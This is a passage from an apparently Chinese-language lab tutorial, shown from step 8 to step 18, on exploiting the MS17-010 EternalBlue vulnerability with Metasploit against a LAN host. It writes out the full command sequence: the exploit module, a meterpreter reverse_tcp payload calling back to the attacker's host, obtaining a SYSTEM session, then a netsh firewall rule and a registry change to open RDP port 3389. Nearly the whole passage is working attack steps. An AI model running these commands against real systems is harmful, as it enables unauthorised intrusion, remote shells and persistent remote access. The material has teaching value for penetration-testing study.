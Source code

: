 8.需要设置目标地址，设置命令：`set RHOSTS 192.168.114.138`

![](https://upload-images.jianshu.io/upload_images/7216746-5c2132e1f6057474.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

9.设置完成后，执行run或exploit命令，等待执行结果，发现存在永恒之蓝漏洞
![](https://upload-images.jianshu.io/upload_images/7216746-c863abe6f822f57e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

10.使用漏洞利用模块

`use exploit/Windows/smb/ms17_010_eternalblue`
![](https://upload-images.jianshu.io/upload_images/7216746-b5da81f9ba784923.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

11.查看配置信息，并设置标记为yes的属性,`show options`,目标机host	地址:192.168.114.138,`set RHOST 192.168.114.138`
![](https://upload-images.jianshu.io/upload_images/7216746-8108fffa5655699a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

12.选择载荷payload，也就是shellcode,此处我们选择回连至控制端	shell的payload

`set payload  Windows/x64/meterpreter/reverse_tcp`
![](https://upload-images.jianshu.io/upload_images/7216746-94b7ac7fd10bbafc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

同样，载荷也需要进行配置，show options查看配置信息
配置中缺少本地主机 LHOST，设置一下

`set LHOST 192.168.114.130`

![](https://upload-images.jianshu.io/upload_images/7216746-f92afef3933d1668.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/7216746-a8bdd852963a3221.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

13.完成配置后，运行exploit或者run,开始执行漏洞利用模块
成功获取来自目标主机的Session会话
![](https://upload-images.jianshu.io/upload_images/7216746-ef0f781940289b67.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

14.查看受害者机器相关信息
![](https://upload-images.jianshu.io/upload_images/7216746-30582f706031fa0e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

15.成功使用MS17010获得系统权限

![](https://upload-images.jianshu.io/upload_images/7216746-ae1b1f4c1f161dfe.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

16.发现未开启3389端口
![](https://upload-images.jianshu.io/upload_images/7216746-730f0208daa220a3.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

17.添加3389入站规则
```
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP 	dir=in localport=3389 action=allow
```
![](https://upload-images.jianshu.io/upload_images/7216746-16ecfd2c2b0b968a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

18.开启3389端口
```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server 	/v fDenyTSConnections /t REG_DWORD /d 0 /f
```
